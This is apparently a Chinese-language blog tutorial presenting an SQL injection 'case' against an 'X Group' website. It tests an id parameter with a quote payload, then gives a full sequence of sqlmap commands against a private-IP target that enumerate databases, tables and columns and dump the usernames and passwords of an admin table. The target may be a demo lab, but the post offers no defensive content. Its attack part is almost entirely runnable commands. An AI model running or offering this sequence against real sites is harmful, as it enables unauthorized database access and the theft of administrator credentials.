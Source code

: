 ```yaml
---
title: sql实例(X集团)
date: 2022-03-28
cover: https://s1.ax1x.com/2022/03/28/qr7OiV.gif
tags:
 - sql
categories:
 - sql注入
---
```


## sql注入（X集团实例）

第一步：进入网站寻找到拥有id=（任意数字）末尾的url，使用sql注入语句进行测试。
<img src="https://s1.ax1x.com/2022/03/28/qrbhuQ.png">
`'1 and 1=1`

第二步：使用sqlmap工具开始进行注入测试，扫出所有数据。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch -dbs`

<img src="https://s1.ax1x.com/2022/03/28/qrjEWt.png">
<img src="https://s1.ax1x.com/2022/03/28/qrOk0H.png">

第三步：通过sqlmap扫出当前所处数据库。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch --current-db`

<img src="https://s1.ax1x.com/2022/03/28/qrjEWt.md.png">
<img src="https://s1.ax1x.com/2022/03/28/qrOFne.png">

第四步：使用sqlmap工具扫出所使用的表。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch -D yanshi --tables`

<img src="https://s1.ax1x.com/2022/03/28/qrb4Bj.png">
<img src="https://s1.ax1x.com/2022/03/28/qrb740.png">

第五步：通过上图可以发现yx_admin的一个数据表，我们可以尝试注入查看内容，通过sqlmap扫出该表中拥有的列。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch -D yanshi -T yx_admin -columns`

<img src="https://s1.ax1x.com/2022/03/28/qrb5Hs.png">
<img src="https://s1.ax1x.com/2022/03/28/qrboEn.png">

第六步：可以发现该表中拥有username和password两列，所以使用--dump查看这两列。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch -D yanshi -T yx_admin -C username,password --dump`

<img src="https://s1.ax1x.com/2022/03/28/qrbTNq.png">

注入成功，得到用户名和密码。
<img src="https://s1.ax1x.com/2022/03/28/qrbbCV.png">